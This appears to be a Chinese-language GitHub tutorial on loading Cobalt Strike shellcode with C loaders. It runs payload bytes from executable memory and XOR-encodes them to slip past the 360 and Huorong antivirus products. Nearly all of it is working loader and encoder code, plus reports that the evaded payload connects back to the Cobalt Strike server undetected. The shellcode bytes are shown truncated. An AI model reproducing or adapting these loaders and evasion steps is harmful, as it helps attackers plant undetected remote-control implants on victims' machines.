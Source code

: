 # 0x00 shellcode上线测试
CS版本：Cobalt Strike 4.2  
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式，勾选x64）  
生成的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int main() {
    char* old= VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目

直接在VS2019下编译会有类型匹配问题，需要对VirtualAlloc返回的值进行强制类型转换，能成功编译的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// length: 891 bytes
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";
int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

# 0x01 shellcode免杀上线
使用如下C代码，对shellcode进行简单加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );
    }
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
